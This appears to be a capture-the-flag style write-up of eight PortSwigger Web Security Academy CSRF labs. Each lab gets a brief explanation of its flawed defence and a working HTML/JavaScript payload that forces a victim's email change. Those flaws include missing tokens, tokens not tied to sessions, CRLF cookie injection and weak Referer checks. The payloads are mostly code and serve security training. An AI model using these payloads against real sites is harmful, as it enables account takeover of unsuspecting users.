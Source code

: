 1. This lab has no mitigations in place to prevent CSRF. As such, storing the following payload on the provided exploit server and pressing the `Deliver exploit to victim` button will solve the lab
```
<form id="csrf" action="https://ac6c1f1a1f59028bc09024ed00a80095.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="attacker@asdf.asdf">
</form>
<script>
document.getElementById('csrf').submit();
</script>
```
2. This lab implements CSRF tokens, but only checks them from POST requests. Because the server is tolerant of GET requests as well, the following exploit also works: `<img src="https://acae1ff71e4f0712c03d14fa0021005f.web-security-academy.net/my-account/change-email?email=adsf@asdf.as">`
3. This lab only checks CSRF tokens if one is present. As such, simply not providing one bypasses the check. This results in the following payload:
```
<form action="https://aca81f141e1bc743c01e22db00b800ca.web-security-academy.net/my-account/change-email" method="POST">
	<input type="hidden" name="email" value="asf@asdf.adsf">
</form>
<script>
document.forms[0].submit();
</script>
```
4. This lab properly checks CSRF tokens, but doesn't require that the token matches the one issued to a particular user's session. As such, using a valid CSRF token from a different account in the exploit causes the exploit to still work. This results in the following payload:
```
<form action="https://ac291ffa1eb207f5c06d174b00c60024.web-security-academy.net/my-account/change-email" method="POST">
	<input type="hidden" name="email" value="asdf@asdf.asdf">
	<input required type="hidden" name="csrf" value="Y7gXbZDV5x2xyYqTsVMwSrVsQE7sH4g8">
</form>
<script>
document.forms[0].submit();
</script>
```
5. This lab correctly validates CSRF tokens, but ties them to a different `csrfKey` cookie instead of the session cookie. Additionally, the search feature reflects the searched term into a `Set-Cookie` header, allowing GET requests to modify arbitrary cookies. As a result, the following payload can be used to override the victim's `csrfKey` cookie and make a request using a valid CSRF token for the chosen key:
```
<form action="https://ac8d1f171fee3f37c1f971f200db00c8.web-security-academy.net/my-account/change-email" method="POST">
	<input type="hidden" name="email" value="asdf@asdf.asdf">
	<input required type=hidden name=csrf value=ZKaAzKO3GbyvRFpnGktelLuCGcZ9Ecm8>
</form>
<img src="https://ac8d1f171fee3f37c1f971f200db00c8.web-security-academy.net/?search=a%0d%0aSet-Cookie:%20csrfKey=CuUHvVA2Va189yJVjQllymQ5ZA1CEgPC" onerror="document.forms[0].submit()">
```
6. This lab has the same vulnerability as above, but simply puts the CSRF token into a cookie instead of using a token to associate on the server side. As such, an almost identical payload that simply sets that cookie and uses the same value works:
```
<form action="https://aca21f6b1f12fc65c0a064a000e800de.web-security-academy.net/my-account/change-email" method="POST">
	<input type="hidden" name="email" value="asddf@asdf.asdf">
	<input required type="hidden" name="csrf" value="csrf">
</form>
<img src="https://aca21f6b1f12fc65c0a064a000e800de.web-security-academy.net/?search=a%0d%0aSet-Cookie:%20csrf=csrf" onerror="document.forms[0].submit()">
```
7. This lab doesn't use CSRF tokens, and instead checks that the `Referrer` is from the same domain. However, it defaults to allowing the request to work in the case that the header is absent. As such, the following payload works by not sending a `Referrer`:
```
<meta name="referrer" content="no-referrer">
<form action="https://ac221f031ec97ca3c01951340050003c.web-security-academy.net/my-account/change-email" method="POST">
	<input required type="email" name="email" value="asf@asdf.asdf">
</form>
<script>
document.forms[0].submit();
</script>
```
8. This lab has the same vulnerability as above, but actually ensures that a referrer is provided. To exploit this, you first must set the controlled server to send the header `Referrer-Policy: unsafe-url`. This will allow the `Referer` header to contain query strings as well, which is useful because the validation on the server side only checks that the correct domain is in the `Referer` at all. As such, the following payload will append the valid domain to the actual `Referer` header in a query string and perform the CSRF:
```
<form action="https://ace81fc21e2583e5c00954420063005a.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="asdf@asdf.asdf">
</form>
<script>
history.pushState("", "", "/?ace81fc21e2583e5c00954420063005a.web-security-academy.net");
document.forms[0].submit();
</script>
```
